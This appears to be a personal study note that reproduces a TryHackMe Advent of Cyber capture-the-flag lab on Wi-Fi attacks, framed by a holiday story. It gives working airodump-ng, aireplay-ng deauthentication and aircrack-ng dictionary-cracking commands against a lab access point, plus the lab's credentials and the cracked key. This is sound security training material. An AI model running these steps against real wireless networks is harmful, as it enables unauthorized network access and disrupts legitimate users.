

The much-awaited SOC-mas of Wareville town is just days away! Glitch, the unsung hero, is closing all the doors to Mayor Malware's malicious intentions one by one. However, there is still much more to do. 


McSkidy took a thoughtful breath. _"Mayor can still find his way in!"_

Glitch smiles confidently. _"I think I know the last technique he relies on to get into the networks."_

McSkidy stands up from her chair with a surge of excitement. _"Let me guess, it's a notorious way to get into a network - a Wi-Fi attack?!"_

Glitch nods decisively. _"Exactly! Let's be one step ahead of the Mayor."_

This is the continuation of [day 10](DAY%2010.md) 
## Learning Objectives

```ad-summary
- Understand what Wi-Fi is
- Explore its importance for an organisation
- Learn the different Wi-Fi attacks
- Learn about the WPA/WPA2 cracking attack
```


|   |   |
|---|---|
|**Username**|glitch|
|**Password**|Password321|
|**IP**|MACHINE_IP|

## What is Wi-Fi
---
The importance of the Internet in our lives is universally acknowledged without the need for any justification. Wi-Fi is the technology that connects our devices to the global network, the Internet. This seamless connection to the Internet appears to be wireless from our devices, which is true to some extent. Our devices are connected wirelessly to the router, which acts as a bridge between us and the Internet, and the router is connected to the Internet via a wired connection.

To connect to Wi-Fi, we turn it on from our devices, and it lists all the available Wi-Fi networks around us. This list comprises the access points (often the routers) that are broadcasting Wi-Fi signals with a unique **SSID** (network name). You can connect to any of these if you know the correct password, also known as a pre-shared key (**PSK**). Once you successfully connect to a network via Wi-Fi, you will be assigned an IP address inside that network, which will uniquely identify you and help you communicate with other devices. It is just like becoming a member of a family assigned with a name that the whole family trusts.

The image below shows an example of what connecting to an **OK443S SSID** requesting a PSK (password) looks like on a typical Windows machine:

  

With all this discussion on Wi-Fi, it seems like a door to our internet access, and every Wi-Fi connection forms a family of devices. Would you allow somebody you don't really know to become part of your family? Not that easy! Probably because of the privileges a family member has, nobody from outside should ever get those.

## Wi-Fi's Pivotal Role in Organisations
---


Most organizations rely on the Internet for their business functioning. Using a wired connection for all employees to connect to the Internet raises concerns about cost, efficiency, and flexibility at work. So, organizations use Wi-Fi for their networks to connect their employees to the Internet. As the employees connect to the organization's network, they form a family of interconnected devices. The devices inside the network can communicate with each other and request or respond to any request. Organizations tend to recruit trustworthy and professional employees to avoid any misuse of their privileges inside the network.

However, a malicious actor from outside the organization could still see the broadcasted Wi-Fi **SSID** of the organization's network when they turn their Wi-Fi on. This may not seem to be a problem as the attacker does not know the password, but the attacker actually has some other plans as well!


## Attacks on Wi-Fi
---
There are several techniques attackers use to exploit Wi-Fi technology. The techniques discussed here are solely for educational purposes. Unauthorized attempts to access or compromise networks are illegal and may lead to severe legal consequences. With that in mind, here are some of the most popular techniques:

```ad-important
- **Evil twin attack:** In this attack, the attacker creates a fake access point that has a similar name to one of your trusted Wi-Fi access points. Of course, it cannot be the exact same. If the trusted Wi-Fi's name is "Home_Internet", the attacker creates a fake Wi-Fi access point named "Home_Internnet" or something similar that is difficult to differentiate. The attack starts with the attacker sending de-authentication packets to all the users connected to their legitimate Wi-Fi access points. The users would face repeated disconnections from the network after this. With frustration, the users are likely to open the Wi-Fi access points list for troubleshooting and will find the attacker's Wi-Fi with almost similar name and with greater signal strength. They would go to connect it, and once connected, the attacker could see all their traffic to or from the Internet.
- **Rogue access point:** This attack's objective is similar to that of the evil twin attack. In this attack, the attacker sets up an open Wi-Fi access point near or inside the organisation's physical premises to make it available to users with good signal strength. The users inside the organisation may accidentally join this network if their devices are set to connect automatically to open Wi-Fi. The attacker can intercept all their communication after the users connect to this rogue access point.
- **WPS attack:** Wi-Fi Protected Setup (WPS) was created to allow users to connect to their Wi-Fi using an 8-digit PIN without remembering complex passwords. However, this 8-digit PIN is vulnerable in some networks due to its insecure configuration. The attack is made by initiating a WPS handshake with the router and capturing the router's response, which contains some data related to the PIN and is vulnerable to brute-force attacks. Some of the captured data is brute-forced, and the PIN is successfully extracted along with the Pre-Shared Key (PSK).
- **WPA/WPA2 cracking:** Wi-Fi Protected Access (WPA) was created to secure wireless communication. It uses a strong encryption algorithm. However, the security of this protocol is heavily influenced by the length and complexity of the Pre-Shared Key (PSK). While cracking WPA, attackers start by sending de-authentication packets to a legitimate user of the Wi-Fi network. Once the user disconnects, they try to reconnect to the network, and a 4-way handshake with the router takes place during this time. Meanwhile, the attacker turns its adaptor into monitor mode and captures the handshake. After the handshake is captured, the attacker can crack the password by using brute-force or dictionary attacks on the captured handshake file.
```

McSkidy looks to Glitch and asks, _"What kind of attack are you thinking of demonstrating Glitch?"_

Glitch paces back and forth before coming to a sudden stop and says, _"Today I will be showing you how the WPA/WPA2 cracking attack works!"_

## WPA/WPA2 Cracking
---
As mentioned above, WPA/WPA2 cracking begins by listening to Wi-Fi traffic to capture the 4-way handshake between a device and the access point. Since waiting for a device to connect or reconnect can take some time, Deauthentication packets are sent to disconnect a client, forcing it to reconnect and initiate a new handshake, which is captured. After the handshake is captured, the attacker can crack the password (**PSK**) by using brute-force or dictionary attacks on the captured handshake file.



**The 4-way Handshake**

The WPA password cracking process involves capturing a Wi-Fi network's handshake to attempt a PSK (password) decryption. First, an attacker places their wireless adapter into monitor mode to scan for networks, then targets a specific network to capture the 4-way handshake. Once the handshake is captured, the attacker runs a brute-force or dictionary attack using a tool like aircrack-ng to attempt to match a wordlist against the passphrase.

The WPA 4-way handshake is a process that helps a client device (like your phone or laptop) and a Wi-Fi router confirm they both have the right "password" or Pre-Shared Key (PSK) before securely connecting. Here's a simplified rundown of what happens:

```ad-summary
- **Router sends a challenge:** The router (or access point) sends a challenge" to the client, asking it to prove it knows the network's password without directly sharing it.
- **Client responds with encrypted information:** The client takes this challenge and uses the PSK to create an encrypted response that only the router can verify if it also has the correct PSK.
- **Router verifies and sends confirmation:** If the router sees the client’s response matches what it expects, it knows the client has the right PSK. The router then sends its own confirmation back to the client.
- **Final check and connection established:** The client verifies the router's response, and if everything matches, they finish setting up the secure connection.
```

This handshake doesn't directly reveal the PSK itself but involves encrypted exchanges that depend on the PSK.

**The Vulnerability**

The vulnerability lies in the fact that an attacker can capture this 4-way handshake if they’re listening when a device connects. With the handshake data, they can use it as a basis to attempt offline brute-force or dictionary attacks. Essentially, they try different possible passwords and test each one to see if it would produce the captured handshake data, eventually cracking the PSK if they get a match.

**The Practical**

On our current SSH session, run the command `iw dev`. This will show any wireless devices and their configuration that we have available for us to use.


```shell-session
glitch@wifi:~$ iw dev
phy#2
	Interface wlan2
		ifindex 5
		wdev 0x200000001
		addr 02:00:00:00:02:00
		type managed
		txpower 20.00 dBm             
```

The device/interface `wlan2` is available to us, and there are two important details to take away from this output that will be useful to us:

1. The `addr` is the **MAC/BSSID** of our device. BSSID stands for Basic Service Set Identifier, and it's a unique identifier for a wireless device or access point's physical address.
2. The `type` is shown as **managed**. This is the standard mode used by most Wi-Fi devices (like laptops, phones, etc.) to connect to Wi-Fi networks. In managed mode, the device acts as a client, connecting to an access point to join a network. There is another mode called **monitor**, which we will discuss shortly.

Now, we would like to scan for nearby Wi-Fi networks using our `wlan2` device. We can use `sudo iw dev wlan2 scan`. The `dev wlan2` specifies the wireless device you want to work with, and `scan` tells **iw** to scan the area for available Wi-Fi networks.


```shell-session
glitch@wifi:~$ sudo iw dev wlan2 scan
BSS 02:00:00:00:00:00(on wlan2)
	last seen: 520.388s [boottime]
	TSF: 1730575383370084 usec (20029d, 19:23:03)
	freq: 2437
	beacon interval: 100 TUs
	capability: ESS Privacy ShortSlotTime (0x0411)
	signal: -30.00 dBm
	last seen: 0 ms ago
	Information elements from Probe Response frame:
	SSID: MalwareM_AP
	Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 
	DS Parameter set: channel 6
	ERP: Barker_Preamble_Mode
	Extended supported rates: 24.0 36.0 48.0 54.0 
	RSN:	 * Version: 1
		 * Group cipher: CCMP
		 * Pairwise ciphers: CCMP
		 * Authentication suites: PSK
		 * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
	Supported operating classes:
		 * current operating class: 81
	Extended capabilities:
		 * Extended Channel Switching
		 * Operating Mode Notification                                                                            
```


There is a lot of information to dissect here, but here are the most important details that indicate this device is an access point:

```ad-important
- The **BSSID** and **SSID** of the device are `02:00:00:00:00:00` and `MalwareM_AP` respectively. Since the SSID is shown, this means the device is advertising a network name, which access points do to allow clients to discover and connect to the network.
- The presence of **RSN (Robust Security Network)** indicates the network is using WPA2, as RSN is a part of the WPA2 standard. WPA2 networks typically use RSN to define the encryption and authentication settings.
- The `Group and Pairwise ciphers` are **CCMP**. Counter Mode with Cipher Block Chaining Message Authentication Code Protocol (CCMP) is the encryption method used by WPA2.
- The `Authentication suites` value inside RSN is **PSK** indicating that this is a WPA2-Personal network, where a shared password is used for authentication.
- Another important detail is the `DS Parameter set` value, which shows **channel 6**. The channel, in terms of Wi-Fi, refers to a specific frequency range within the broader Wi-Fi spectrum that allows wireless devices to communicate with each other. There are various Wi-Fi channels, and they all help distribute network traffic across various frequency ranges, which reduces interference. The two most common Wi-Fi channels are 2.4 GHz and 5GHz. In the 2.4 GHz band, channels 1, 6, and 11 are commonly used because they don’t overlap, minimising interference. In the 5 GHz band, there are many more channels available, allowing more networks to coexist without interference.
```

Now will be a good time to discuss another type that we can use on some wireless devices: **monitor** mode. This is a special mode primarily used for network analysis and security auditing. In this mode, the Wi-Fi interface listens to all wireless traffic on a specific channel, regardless of whether it is directed to the device or not. It passively captures all network traffic within range for analysis without joining a network. We want to check if our `wlan2` interface can use monitor mode. To achieve this, we will run the command `sudo ip link set dev wlan2 down` to turn our device off. Then we will switch modes with `sudo iw dev wlan2 set type monitor` to change wlan2 to monitor mode. Then turn our device back on with `sudo ip link set dev wlan2 up`.

We can confirm that our interface is in monitor mode with the command `sudo iw dev wlan2 info`.


```shell-session
glitch@wifi:~$ sudo iw dev wlan2 info
Interface wlan2
	ifindex 5
	wdev 0x200000001
	addr 02:00:00:00:02:00
	type monitor
	wiphy 2
	channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
	txpower 20.00 dBm
```


Now, let us create one more SSH session. We want to have **2 separate terminals** in order to see clearly how the attack works. You can align the SSH terminals however you like, but here is an example of how it should look like.


On the first terminal, we start by capturing Wi-Fi traffic in the area, specifically targeting the WPA handshake packets. We can do this with the command `sudo airodump-ng wlan2`. This command provides a list of nearby Wi-Fi networks (SSIDs) and shows important details like signal strength, channel, and encryption type. This information is already known to us from our previous commands.

**Note:** By default, `airodump-ng` will automatically switch the selected wireless interface into monitor mode if the interface supports it.


```shell-session
glitch@wifi:~$ sudo airodump-ng wlan2
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28        2        0    0   6   54   WPA2 CCMP   PSK  MalwareM_AP                     
```


The output reveals the information we already knew before, such as the BSSID, SSID, and the channel. However, in this particular output, we are also given the channel where our target SSID is listening (channel 6). Now, we will focus on the **MalwareM_AP** access point and capture the WPA handshake; this is crucial for the PSK (password) cracking process.

First, in the current terminal, let us cancel **airodump-ng** using `CTRL+C` and then execute the command `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2`. This command targets the specific network channel and MAC address (BSSID) of the access point for which you want to capture the traffic and saves the information to a few files that start with the name output-file. These files will be used to crack the PSK. The ultimate goal of this command is to capture the 4-way handshake. It will first check for any clients that may be connected to the access point. If a client is already connected, then we can perform a deauthentication attack; otherwise, for any new client that connects, we will capture the 4-way handshake. In this particular scenario, a client is already connected. The output will look the same at first until we receive the information about the connected client, which will be displayed at the bottom of our output. It is important to leave this **command running** until we are done with the attack.

```shell-session
glitch@wifi:~$ sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
```


It should take between **1 to 5 minutes** before receiving the client information. In our case, it will show like this:

```shell-session
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140
```


Note that the `STATION` section shows the device's BSSID (MAC) of `02:00:00:00:01:00` that is connected to the access point. This is the connection that we will be attacking. Now we are ready for the next step.

On the second terminal, we will launch the deauthentication attack. Because the client is already connected, we want to force them to reconnect to the access point, forcing it to send the handshake packets. We can break this down into 3 simple steps:

```ad-summary
1. **Deauthentication packets:** The tool aireplay-ng sends deauthentication packets to either a specific client (targeted attack) or to all clients connected to an access point (broadcast attack). These packets are essentially "disconnect" commands that force the client to drop its current Wi-Fi connection.
2. **Forcing a reconnection:** When the client is disconnected, it automatically tries to reconnect to the Wi-Fi network. During this reconnection, the client and access point perform the 4-way handshake as part of the reauthentication process.
3. **Capturing the handshake:** This is where airodump-ng comes into play because it will capture this handshake as it happens, providing the data needed to attempt the WPA/WPA2 cracking.
```

We can do this with `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`. The `-0` flag indicates that we are using the deauthentication attack, and the `1` value is the number of deauths to send. The `-a` indicates the BSSID of the access point and `-c` indicates the BSSID of the client to deauthenticate.

Now, if we look back on our first terminal, we will see the WPA handshake shown on the top-right of our output as `WPA handshake: 02:00:00:00:00:00`. All of this information is being saved into our output files.


```shell-session
 CH  6 ][ Elapsed: 1 min ][ 2024-11-02 19:30 ][ WPA handshake: 02:00:00:00:00:00 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140  EAPOL
```

In the second terminal, we can use the captured WPA handshake to attempt to crack the WPA/WP2 passphrase. We will be performing a dictionary attack in order to match the passphrase against each entry in a specified wordlist file. A shortened version of the infamous `rockyou.txt` wordlist has already been provided for us to use. This is located in the `/home/glitch/` directory. If the passphrase is weak and appears in the wordlist, it will eventually be cracked. The command `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap` will do this for us where the `-a 2` flag indicates the WPA/WPA2 attack mode. The `-b` indicates the BSSID of the access point, and the `-w` flag indicates the dictionary list to use for the attack. Finally, we select the output files that we will be using, which contain the 4-way handshake that we will be cracking.


Terminal

```shell-session
glitch@wifi:~$ sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
Reading packets, please wait...
Opening output-file-01.cap
Read 276 packets.
1 potential targets

                               Aircrack-ng 1.6 

      [00:00:01] 304/513 keys tested (217.04 k/s) 

      Time left: 0 seconds                                      59.26%

                 KEY FOUND! [ REDACTED ]


      Master Key     : B6 53 9A 71 8C C4 74 5F E3 26 49 82 37 74 65 09 
                       BE C5 62 CE 43 C4 68 A7 B4 8F 8C E6 98 EE 1C CB 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : C8 8E D5 F4 B4 5A 1D C4 6C 41 35 07 68 81 79 CD
```

We found the key: `fluffy/champ24 `


**Note:** If you get an `Packets contained no EAPOL data; unable to process this AP` error, this means that you ran aircrack-ng prior to the handshake being captured or that the handshake was not captured at all. If that's the case, then re-do all of the steps in order to capture the `WPA handshake`.

With the PSK, we can now join the **MalwareM_AP** access point. In a typical engagement, we would do this to inspect the new network, or in some cases, joining the access point is enough to show impact. First, press `CTRL+C` on the terminal that has `airodump-ng` running in order to stop the **airodump-ng** process. We do this because we will not be able to join the Wi-Fi network while airodump-ng is running due to the fact that we are actively using the interface in monitor mode. Then execute the following commands:

```shell-session
glitch@wifi:~$ wpa_passphrase MalwareM_AP 'ENTER PSK HERE' > config
glitch@wifi:~$ sudo wpa_supplicant -B -c config -i wlan2
```

**Note:** If you get a `rfkill: Cannot get wiphy information` error, you can ignore it. You will also notice that `wpa_supplicant` has automatically switched our **wlan2** interface to **managed mode**.


# Questions
---


Just like that, day 11 is done, all questions can be found within this note.

